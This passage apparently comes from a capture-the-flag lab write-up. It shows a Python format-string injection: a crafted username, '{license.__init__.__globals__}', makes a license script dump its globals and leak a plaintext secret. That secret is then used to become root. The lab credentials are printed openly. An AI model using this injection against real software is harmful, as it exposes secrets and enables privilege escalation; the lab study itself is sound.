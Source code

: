 ```bash
, '__warningregistry__': {'version': 0}, 'secret': 'unCR4ckaBL3Pa$$w0rd', 'secret_encoded': b'unCR4ckaBL3Pa$$w0rd', 'salt': b'microblogsalt123', 'kdf': <cryptography.hazmat.primitives.kdf.pbkdf2.PBKDF2HMAC object at 0x7f143987c070>, 'encryption_key': b'nTXlHnzf-z2cR0ADCHOrYga7--k6Ii6BTUKhwmTHOjU=', 'f': <cryptography.fernet.Fernet object at 0x7f143987c490>, 'l': <__main__.License object at 0x7f143987ca00>, 'user_profile': {b'username': b'{license.__init__.__globals__}', b'password': b'password', b'first-name': b'loc', b'last-name': b'loc', b'pro': b'false'}, 'existing_keys': <_io.TextIOWrapper name='/root/license/keys' mode='r' encoding='UTF-8'>, 'all_keys': ['cooper.dooper:gAAAAABjZbN1xCOUaNCV_-Q12BxI7uhvmqTGgwN12tB7Krb5avX5JdSzE2dLKX53ZpHxHrzpNnAwQ6g1FTduOtBAl4QYRWF27A2MPfedfMzgNZrv_VqUwCAfzGZeoQCv1-NBIw6GaoCA0yIMPl0o3B6A2_Hads32AsdDzOLyhetqrr8HUgtLbZg=\n'], 'user_key': 'cooper.dooper:gAAAAABjZbN1xCOUaNCV_-Q12BxI7uhvmqTGgwN12tB7Krb5avX5JdSzE2dLKX53ZpHxHrzpNnAwQ6g1FTduOtBAl4QYRWF27A2MPfedfMzgNZrv_VqUwCAfzGZeoQCv1-NBIw6GaoCA0yIMPl0o3B6A2_Hads32AsdDzOLyhetqrr8HUgtLbZg=\n', 'prefix': 'microblog', 'username': '{license.__init__.__globals__}', 'firstlast': 'locloc'}6)zI1y/FeNn*:_KH}<(e-5/^W}AQk3FcA@Ao{e`1locloc
```

secret: `unCR4ckaBL3Pa$$w0rd`

##### Root
```bash
cooper@format:~$ su root
Password: #unCR4ckaBL3Pa$$w0rd
root@format:/home/cooper# cd
root@format:~# cd /root
root@format:~# ls
license  reset	root.txt
```

#### Additional references

* [Python format string vulnerabilities · Podalirius](https://podalirius.net/en/articles/python-format-string-vulnerabilities/) 
* [Redis Cheat Sheet (lzone.de)](https://lzone.de/cheat-sheet/Redis)
* [Middleware everywhere and lots of misconfigurations to fix | Detectify Labs](https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/)
